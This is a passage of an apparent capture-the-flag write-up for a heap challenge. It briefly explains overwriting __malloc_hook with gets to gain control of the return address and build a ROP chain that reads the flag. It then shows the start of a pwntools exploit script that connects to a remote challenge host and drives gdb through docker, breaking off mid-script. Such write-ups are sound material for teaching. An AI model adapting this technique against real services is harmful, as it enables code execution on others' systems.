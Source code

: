 Overwrite `__malloc_hook` with `gets`.  
Since we can create a house with arbitrary size, we can control the argument to `calloc`/`__malloc_hook`/`gets`.
So we allocate a new house with `size` equal to the stack location of the return address of `gets`, such that we gain control when `gets` returns.  From there, write a ROP chain to open/read/write the flag file.

# Final Exploit Script
```python
import sys
from pwn import *
context.arch="amd64"
libc = ELF("./libc.so.6", False)
if 'rem' in sys.argv:
    p = remote("3.115.121.123", 5731)
else:
    if '-d' in sys.argv:
        os.system("sudo docker exec ub19 pkill -9 chall")
        os.system("sudo docker exec ub19 pkill -9 gdb")
    p = remote('0', 1339)
    if '-d' in sys.argv:
        os.system("sudo docker exec ub19 pidof chall > /tmp/ddd")
        pid = int(open("/tmp/ddd","r").read().split(' ')[0])
        script = '''
        codebase
        b free
        c
        del
        heap
        set $houses = $code+0x5060
        boff 0x23b4
        b malloc_printerr
        #b *($code+0x1f4e)
        b *gets+235
        c
        #c 23
        '''
        open("/tmp/script.gdb","w").write(script)
        os.system("sudo docker cp /tmp/script.gdb ub19:/tmp/script.gdb")
        run_in_new_terminal("sudo docker exec -it ub19 gdb -q /chall %d -x /tmp/script.gdb"%pid)
        pid = pidof("chall")[0]
        proc.wait_for_debugger(pid)
mapping = [0] * 8
def send_wrapped(s, l, f='\x00'):
    p.send(s.ljust(l, f))
def buy_house(index, size, house, sleep_nowrap=False):
    send_wrapped('1', 32)
    send_wrapped(str(index), 32)
    send_wrapped(str(size), 32)
    if sleep_nowrap:
        p.send(house)
        if 'rem' in sys.argv:
            time.sleep(1)
        else:
            time.sleep(0.4)
    else:
        send_wrapped(house, size)
    mapping[index] = size
def buy_house_massive(index, size):
    send_wrapped('1', 32)
    send_wrapped(str(index), 32)
    send_wrapped(str(size), 32)
def show_house(index):
```